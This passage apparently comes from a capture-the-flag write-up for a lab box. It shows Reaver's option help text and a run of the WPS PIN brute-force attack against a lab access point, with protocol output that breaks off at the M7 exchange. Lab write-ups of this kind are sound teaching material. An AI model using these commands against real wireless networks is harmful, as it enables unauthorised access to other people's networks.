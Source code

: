     Advanced Options:
            -p, --pin=<wps pin>             Use the specified pin (may be arbitrary string or 4/8 digit WPS pin)
            -d, --delay=<seconds>           Set the delay between pin attempts [1]
            -l, --lock-delay=<seconds>      Set the time to wait if the AP locks WPS pin attempts [60]
            -g, --max-attempts=<num>        Quit after num pin attempts
            -x, --fail-wait=<seconds>       Set the time to sleep after 10 unexpected failures [0]
            -r, --recurring-delay=<x:y>     Sleep for y seconds every x pin attempts
            -t, --timeout=<seconds>         Set the receive timeout period [10]
            -T, --m57-timeout=<seconds>     Set the M5/M7 timeout period [0.40]
            -A, --no-associate              Do not associate with the AP (association must be done by another application)
            -N, --no-nacks                  Do not send NACK messages when out of order packets are received
            -S, --dh-small                  Use small DH keys to improve crack speed
            -L, --ignore-locks              Ignore locked state reported by the target AP
            -E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
            -J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
            -F, --ignore-fcs                Ignore frame checksum errors
            -w, --win7                      Mimic a Windows 7 registrar [False]
            -K, --pixie-dust                Run pixiedust attack
            -Z                              Run pixiedust attack

    Example:
            reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv



I need the name of the name of the monitor-mode interface and the BSSID
of the target AP. The example at the bottom,
`reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv` shows the BSSID looks like
a MAC address, and in fact, [it
is](https://en.wikipedia.org/wiki/Service_set_(802.11_network)).

#### Run Reaver

The target AP is `wlan0`, which has a MAC from the `iw` command above of
`02:00:00:00:00:00`. The monitor-mode interface is `mon0`. Most `reaver`
tutorials show using the `wash` command to get the BSSID/MAC. This
doesn't work here, and I'll look at that in [Beyond Root](#beyond-root).

I'll use those to run `reaver`:



    netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

    Reaver v1.6.5 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

    [+] Waiting for beacon from 02:00:00:00:00:00
    [+] Switching mon0 to channel 1
    [+] Received beacon from 02:00:00:00:00:00
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [!] Found packet with bad FCS, skipping...
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK